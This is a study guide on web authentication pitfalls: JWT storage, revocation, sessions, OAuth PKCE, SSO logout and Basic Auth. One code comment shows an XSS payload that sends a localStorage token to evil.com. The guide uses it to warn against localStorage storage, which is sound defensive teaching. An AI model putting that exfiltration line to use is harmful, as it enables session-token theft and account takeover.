


# Authentication — Intermediate Brush-Up

You already know what JWTs, OAuth, SSO, and sessions are. This is a refresher on the parts people get wrong in practice: token storage, revocation, flow details, and the tradeoffs that actually matter when you're picking an approach for a real app.

## JWT: the parts people forget

A JWT is `header.payload.signature`, all Base64url-encoded — **not encrypted**. The signature only proves the token wasn't tampered with; it does nothing to hide the payload's contents. If you put PII or sensitive claims in there, anyone with the token can read them.

### Storage: the recurring interview/production gotcha

Where you store the JWT client-side is the single most commonly botched decision.

| Storage | XSS risk | CSRF risk | Notes |
|---------|---------|-----------|-------|
| `localStorage` | **High** — any injected script can read it via `localStorage.getItem` | None (not auto-sent) | Most common mistake: developers pick this for "simplicity" and expose the app to token theft via XSS |
| `sessionStorage` | High (same as above) | None | Cleared on tab close — slightly reduces exposure window, still vulnerable |
| In-memory (JS variable) | Low (still readable during an active XSS attack, but not persisted) | None | Lost on refresh — needs a refresh-token flow to restore |
| `httpOnly` cookie | **Low** — JS cannot read it at all | **Yes** — sent automatically, needs CSRF protection | Generally the recommended pattern; pair with `SameSite=Strict/Lax` and CSRF tokens |

```javascript
// COMMON MISTAKE — vulnerable to any XSS on the page
localStorage.setItem('token', jwt);
// One injected <script> and it's: fetch('https://evil.com?t=' + localStorage.getItem('token'))

// BETTER — server sets it, JS never touches it
// Set-Cookie: token=xxxxx; HttpOnly; Secure; SameSite=Strict
```

The nuance: `httpOnly` cookies solve XSS-token-theft but reintroduce CSRF, since the cookie is sent automatically with every request to that origin. You mitigate that with `SameSite` cookie attributes and/or a CSRF token pattern (double-submit cookie or synchronizer token).

### Revocation: the structural weakness

Because JWTs are stateless, there's no built-in way to invalidate one before its `exp` claim passes. Common workarounds, each with tradeoffs:

- **Short expiry + refresh tokens** — access token lives 5–15 min, a longer-lived refresh token (stored more securely, often httpOnly cookie) gets a new access token. Limits the damage window of a leaked token.
- **Server-side blocklist** — store revoked token IDs (`jti` claim) until they'd naturally expire. This reintroduces state, partially defeating the "stateless" benefit.
- **Short-lived + rotate on use** — refresh tokens are single-use; reuse detection flags token theft.



**Common mistake:** treating JWT expiry as "good enough" security and setting `expiresIn: '30d'` on an access token stored in localStorage. That's a 30-day window for a leaked token to be abused with zero revocation.

## Session Auth: what people forget

Sessions get dismissed as "old-school" but they solve revocation trivially — delete the row, user is logged out everywhere, instantly. The tradeoff is a shared store (Redis, etc.) is now a dependency every server instance needs, which is friction in a horizontally-scaled/serverless environment.

**Common mistake:** conflating "stateless" with "more secure." JWT statelessness is a scaling/architecture tradeoff, not automatically a security upgrade — if anything, sessions have the safer default revocation story.

| | Session | JWT |
|---|---------|-----|
| Revoke instantly | Yes (delete server record) | No (needs blocklist or short expiry) |
| Horizontal scaling | Needs shared store | Any server can verify independently |
| Payload visible to client | No | Yes (Base64, not encrypted) |
| Typical transport | Cookie (session ID only) | Header (`Authorization: Bearer`) or cookie |

## OAuth: nuances beyond "sign in with Google"

Remember OAuth is **authorization delegation**, not authentication by itself — that's what OpenID Connect (OIDC) layers on top, adding the `id_token` (a JWT containing identity claims) alongside the `access_token`.

### Authorization Code flow — the detail that matters: PKCE

For SPAs and mobile apps (public clients that can't safely hold a `client_secret`), the **Authorization Code + PKCE** flow replaces the client secret with a dynamically generated code verifier/challenge pair, preventing authorization code interception attacks.



**Common mistake:** using the old **Implicit flow** (`response_type=token`) for SPAs — it returns the access token directly in the URL fragment, exposed in browser history/logs, with no refresh token. It's deprecated in the OAuth 2.1 draft in favor of Authorization Code + PKCE, even for public clients.

## SSO: the detail people gloss over

SSO isn't a protocol itself — it's a pattern implemented via **SAML** (XML-based, common in enterprise) or **OIDC** (JSON/JWT-based, common in modern web). The key mechanic: a central Identity Provider issues a token/assertion that Service Providers trust without re-prompting for credentials, typically tracked via a session with the IdP itself.

**Common mistake:** assuming SSO logout is automatic. Logging out of one app does **not** log you out of others unless Single Logout (SLO) is explicitly implemented — a frequently missed requirement.

## Basic Auth: when it's actually fine

Basic Auth is not inherently "bad" — sending `base64(username:password)` on every request over TLS is acceptable for machine-to-machine API calls or staging environments behind a firewall. The mistake is using it for user-facing login flows where there's no logout mechanism and credentials are repeatedly transmitted.

## Common mistakes summary

- Storing JWTs in `localStorage` "because it's easier" — creates an XSS-to-account-takeover path.
- Treating JWT statelessness as automatically more secure than sessions — it's a scaling tradeoff, and it weakens revocation.
- Using the Implicit OAuth flow in a new SPA instead of Authorization Code + PKCE.
- Forgetting `SameSite` and CSRF protection when moving JWT storage from localStorage to cookies.
- Assuming SSO logout propagates without implementing Single Logout.
- Setting overly long JWT expiry without a refresh/rotation strategy.

## Where this fits

Authentication Strategies sits after Testing and before Web Security Basics in the frontend roadmap — token storage and revocation choices here directly shape the XSS/CSRF surface covered next.
